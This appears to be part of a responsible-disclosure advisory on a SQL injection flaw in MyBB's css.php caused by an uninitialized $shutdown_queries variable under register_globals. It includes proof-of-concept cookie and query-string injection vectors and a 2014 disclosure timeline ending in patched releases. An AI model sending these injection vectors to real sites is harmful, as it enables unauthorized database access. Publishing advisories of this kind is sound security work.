 There is not included global.php, and $shutdown\_queries is uninitialized, with the result that there is a SQL injection vulnerability.

**Proof of Concept**

Works on request\_order = "GP" and register\_globals = On:

```
$ curl --cookie "GLOBALS=1; shutdown_queries[]=SQL_Inj" http://www.target/css.php
```

Works on disable\_functions = ini\_get and register\_globals = On:

```
css.php?shutdown_queries[]=SQL_Inj
```

##VI. Disclosure Timeline

* 2014.03.06 - Notified the MyBB devs via security contact form
* 2014.11.16 - Renotified the MyBB devs via Private Inquiries forum because no reply
* 2014.11.20 - MyBB developers released MyBB 1.8.3 and MyBB 1.6.16
* 2014.11.21 - Public Disclosure